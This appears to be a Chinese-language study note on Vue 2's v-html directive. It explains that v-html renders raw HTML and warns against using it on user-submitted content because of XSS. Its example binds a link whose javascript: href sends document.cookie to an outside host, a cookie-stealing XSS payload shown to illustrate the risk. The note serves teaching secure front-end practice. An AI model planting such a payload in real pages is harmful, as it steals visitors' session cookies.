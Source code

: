```yaml
---
title: Vue v-html
date: 2022-05-22 6:00:00
updated: 2022-05-22 6:00:00
categories:
        - 前端框架
tags:
        - Vue
        - 前端
        - Vue 2
        - 学习笔记

---
```


# v-html

设置元素的 innerHTML，会覆盖元素中的所有内容。但与`v-text`不同的是，它会识别 HTML 元素

## 安全性

在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 `XSS` 攻击。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

**HTML**

```HTMl
<div id="app">
    <div v-html="msg">原内容</div>
</div>
```

**JavaScrip**

```JavaScrip
var vm = new Vue({
	el: '#app',
	data: {
		msg: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>XXS 攻击</a> ',
	},
});

Vue.config.productionTip = false;

```

